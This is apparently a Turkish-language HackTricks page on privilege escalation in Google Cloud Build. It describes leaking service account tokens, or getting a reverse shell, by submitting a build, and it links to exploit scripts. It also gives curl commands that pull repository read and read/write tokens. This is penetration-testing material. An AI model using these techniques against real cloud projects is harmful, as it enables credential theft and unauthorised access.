 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Cloud Build hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`

Bu izinle **bir cloud build gönderebilirsiniz**. Cloudbuild makinesinin dosya sisteminde **varsayılan olarak bir cloudbuild Hizmet Hesabı token'ı** bulunacaktır: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Ancak, cloudbuild yapılandırmasında **projede herhangi bir hizmet hesabını belirtebilirsiniz**.\
Bu nedenle, makinenin token'ı sunucunuza dışarıya sızdırmasını sağlayabilir veya **içinde ters bir shell alarak token'ı elde edebilirsiniz** (token'ı içeren dosya değişebilir).

Orijinal exploit scriptini [**burada GitHub'da**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) bulabilirsiniz (ancak token'ı aldığı yer benim için çalışmadı). Bu nedenle, [**bir vuln ortamının oluşturulması, istismar edilmesi ve temizlenmesi için bir scripti buradan kontrol edin**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) ve cloudbuild makinesinde ters bir shell almak için bir python scriptini [**buradan çalın**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (kodda diğer hizmet hesaplarını nasıl belirteceğinizi bulabilirsiniz)**.**

Daha derinlemesine bir açıklama için [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/) adresini ziyaret edin.

### `cloudbuild.builds.update`

**Potansiyel olarak** bu izinle **bir cloud build'i güncelleyebilir ve sadece hizmet hesabı token'ını çalabilirsiniz**; bu, önceki izinle gerçekleştirildiği gibi (ama ne yazık ki bu yazının yazıldığı sırada o API'yi çağırmanın bir yolunu bulamadım).

TODO

### `cloudbuild.repositories.accessReadToken`

Bu izinle kullanıcı, depoya erişmek için kullanılan **okuma erişim token'ını** alabilir:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

Bu izinle kullanıcı, depoya erişmek için kullanılan **okuma ve yazma erişim belirtecini** alabilir:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

Bu izinle **bağlantının erişim sağladığı depoları alabilirsiniz:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
